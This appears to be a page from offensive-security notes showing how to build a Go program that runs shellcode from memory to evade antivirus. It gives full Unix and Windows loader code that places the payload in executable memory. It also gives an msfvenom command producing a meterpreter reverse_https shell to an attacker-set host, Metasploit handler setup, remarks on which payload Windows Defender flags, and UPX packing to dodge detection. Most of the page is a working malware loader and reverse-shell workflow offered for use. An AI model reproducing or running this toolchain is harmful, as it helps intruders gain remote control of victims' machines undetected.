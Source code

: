 # Load shellcode from memory using Golang

This is a program to run shellcode as its own process, all from memory written to defeat anti-virus detection.

Original code by [brimstone](https://github.com/brimstone/go-shellcode) mofified by [JUMPSEC](https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/):


=== "main.go"
	```go
	package main

	import (
		"encoding/hex"
		"fmt"
		"os"

		shellcode "github.com/brimstone/go-shellcode"
	)

	func main() {

		sc :="SHELLCODE-GOES-HERE"
		sc_bin, err := hex.DecodeString(sc)
		if err != nil {
			fmt.Printf("Error decoding arg 1: %s\n", err)
			os.Exit(1)
		}

		shellcode.Run(sc_bin)
	}
	```

=== "shellcode_unix.go"
	```go
	// +build linux freebsd darwin

	package shellcode

	/*
	#include <stdio.h>
	#include <sys/mman.h>
	#include <string.h>
	#include <unistd.h>
	void call(char *shellcode, size_t length) {
		if(fork()) {
			return;
		}
		unsigned char *ptr;
		ptr = (unsigned char *) mmap(0, length, \
			PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
		if(ptr == MAP_FAILED) {
			perror("mmap");
			return;
		}
		memcpy(ptr, shellcode, length);
		( *(void(*) ()) ptr)();
	}
	*/
	import "C"
	import (
		"unsafe"
	)

	func Run(sc []byte) {
		C.call((*C.char)(unsafe.Pointer(&sc[0])), (C.size_t)(len(sc)))
	}
	```

=== "shellcode\_windows.go"
	```go
	package shellcode

	import (
		"syscall"
		"unsafe"
	)

	var procVirtualProtect = syscall.NewLazyDLL("kernel32.dll").NewProc("VirtualProtect")

	func VirtualProtect(lpAddress unsafe.Pointer, dwSize uintptr, flNewProtect uint32, lpflOldProtect unsafe.Pointer) bool {
		ret, _, _ := procVirtualProtect.Call(
			uintptr(lpAddress),
			uintptr(dwSize),
			uintptr(flNewProtect),
			uintptr(lpflOldProtect))
		return ret > 0
	}

	func Run(sc []byte) {
		// TODO need a Go safe fork
		// Make a function ptr
		f := func() {}

		// Change permissions on f function ptr
		var oldfperms uint32
		if !VirtualProtect(unsafe.Pointer(*(**uintptr)(unsafe.Pointer(&f))), unsafe.Sizeof(uintptr(0)), uint32(0x40), unsafe.Pointer(&oldfperms)) {
			panic("Call to VirtualProtect failed!")
		}

		// Override function ptr
		**(**uintptr)(unsafe.Pointer(&f)) = *(*uintptr)(unsafe.Pointer(&sc))

		// Change permissions on shellcode string data
		var oldshellcodeperms uint32
		if !VirtualProtect(unsafe.Pointer(*(*uintptr)(unsafe.Pointer(&sc))), uintptr(len(sc)), uint32(0x40), unsafe.Pointer(&oldshellcodeperms)) {
			panic("Call to VirtualProtect failed!")
		}

		// Call the function ptr it
		f()
	}

	```

The binary can be built using this command:

```text
GOOS=windows \
GOARCH=amd64 \
go build -ldflags="-s -w -H=windowsgui" \
cmd/sc/main.go
```

To generate the shellcode you can use this command:

```text
msfvenom -p windows/x64/meterpreter/reverse_https \
LHOST=xxx \
LPORT=xxx \
-b \x00 \
-f hex
```

!!! info
    At the time of writing the `windows/x64/meterpreter/reverse_tcp` payload was flagged by windows defender when executing \(behavior analysis\) but not the `windows/x64/meterpreter/reverse_https`

Starting the handler:

```text
msfconsole -x "use exploit/multi/handler;\
set PAYLOAD windows/x64/meterpreter/reverse_https;\
set LHOST localhost;\
set LPORT 8443;\
run -j"
```

Packing the binary using UPX might help with Antivirus detection:

```text
brew install upx
upx main.exe --brute
```

### References

- https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/
- https://github.com/brimstone/go-shellcode



